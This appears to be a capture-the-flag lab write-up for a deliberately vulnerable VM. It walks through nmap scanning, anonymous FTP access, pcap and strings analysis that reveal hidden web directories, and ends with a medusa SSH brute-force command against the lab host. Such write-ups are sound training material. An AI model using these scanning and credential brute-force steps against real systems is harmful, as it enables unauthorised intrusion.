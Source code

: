# Pingsweep

```
nmap -sn 192.168.114.1-254
```
```
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.134
Host is up (-0.088s latency).
MAC Address: 00:50:56:E0:B0:AD (VMware)
Nmap scan report for 192.168.114.131
Host is up.
```

# Port Enumeration
```
nmap -sV 192.168.114.134
```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```
#### FTP Enumeration
```
searchsploit vsftpd  - Doesn't seem to show any major vulnerabilities.
```
We try to log through using anonymous ftp
```
ftp 192.168.114.134
user:anonymous@anything
pass:
```
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap
get lol.pcap  - we find a file that can be used with WireShark.
```

#### HTTP Enumeration

Scanning Using nikto
```
nikto -h 192.168.114.134
```
```
+ Entry '/secret/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 1 entry which should be manually viewed.
```
/secret/ leads to a troll image.


#### WireShark

Openning the lol.pcap > Follow TCP Stream
We find a file
```
200 Switching to Binary mode.
PORT 10,0,0,12,202,172
200 PORT command successful. Consider using PASV.
RETR secret_stuff.txt
150 Opening BINARY mode data connection for secret_stuff.txt (147 bytes).
226 Transfer complete.
```
Since we captured the data transfer.
```
Frame 40: 213 bytes on wire (1704 bits), 213 bytes captured (1704 bits) on interface 0
Ethernet II, Src: Vmware_20:70:99 (00:0c:29:20:70:99), Dst: Vmware_5d:04:92 (00:0c:29:5d:04:92)
Internet Protocol Version 4, Src: 10.0.0.6, Dst: 10.0.0.12
Transmission Control Protocol, Src Port: 20, Dst Port: 51884, Seq: 1, Ack: 1, Len: 147
FTP Data (Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n\nSucks, you were so close... gotta TRY HARDER!\n)
```

IF YOU DO NOT WANT TO USE WIRESHARK
```
strings lol.pcap  - also works.
```

#### More HTTP Enumeration

Going back to the webserver
```
http://192.168.114.134/sup3rs3cr3tdirlol/
We find a new directory and a new bin file.
roflmao.bin
```
Trying to find any strings that can help us
```
strings roflmao.bin
```
```
GLIBC_2.0
PTRh
[^_]
Find address 0x0856BF to proceed   <- this is of interest.
;*2$"
GCC: (Ubuntu 4.8.2-19ubuntu1) 4.8.2
```
Trying this everywhere leads us to.
```
http://192.168.114.134/0x0856BF/
```

# Exploit 

We seem to have found possible usernames and passwords.
We attempt to brute force using medusa
```
medusa -U username.txt -P Pass.txt -h 192.168.114.134 -M ssh -v 6
```




